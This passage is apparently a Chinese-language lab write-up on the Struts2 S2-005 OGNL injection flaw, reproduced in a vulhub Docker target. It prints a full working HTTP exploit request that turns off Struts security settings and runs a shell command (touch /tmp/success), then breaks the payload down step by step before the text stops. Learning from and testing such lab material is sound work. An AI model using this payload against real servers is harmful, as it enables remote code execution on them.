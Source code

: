 在 s2-003 中, struts2 会将 http 的每个参数名解析为 OGNL 语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

---

```bash
# 从 vulhub 仓库根目录进入 s2-005 目录
cd struts2/s2-005
# 使用 docker 启动环境(可以修改同级目录下的 docker-compose.yml 文件以更改端口映射行为, 默认 8080:8080, 这里改成了 8081:8080)
docker compose build
docker compose up -d
```

此时访问靶机 8081 端口的 web 服务可以看到如下页面:

![image-20230608164057182](http://cdn.ayusummer233.top/DailyNotes/202309141817123.png)

尝试向该页面发送一个 GET 请求并使用 OGNL 表达式来关闭安全配置并向靶机 `/tmp` 目录写入一个 `success` 文件

```http
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: 192.168.1.215:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36

```

![image-20230608151032083](http://cdn.ayusummer233.top/DailyNotes/202309141817673.png)

![image-20230608151317539](http://cdn.ayusummer233.top/DailyNotes/202309141817362.png)

1. 首先通过设置`#_memberAccess['allowStaticMethodAccess']`为`true`来启用静态方法访问。

   `(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true`

   > OGNL 的解析机制比较宽松，不会因为一个表达式的解析失败就停止解析其他表达式。在这个例子中，由于 `('%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)` 并非一个方法，因此后面跟着的 `(vaaa)` 并没有被当作方法参数进行解析。这种特性被用来增加混淆程度，使得这个 payload 更不容易被人类阅读和理解，同时也更不容易被一些自动化的安全检测工具识别。

2. 然后创建一个新的Boolean对象，并将它的值设为`false`，然后将它赋值给`#context['xwork.MethodAccessor.denyMethodExecution']`，以此来禁止Xwork框架阻止方法执行。

   ```java
   (aaaa)(
       (%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)		
       (%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22))
   )
   
   ####
   (aaaa)(     
       ('#context['xwork.MethodAccessor.denyMethodExecution']=#vccc')
       (#vccc=new java.lang.Boolean("false")) 
   )
   ```
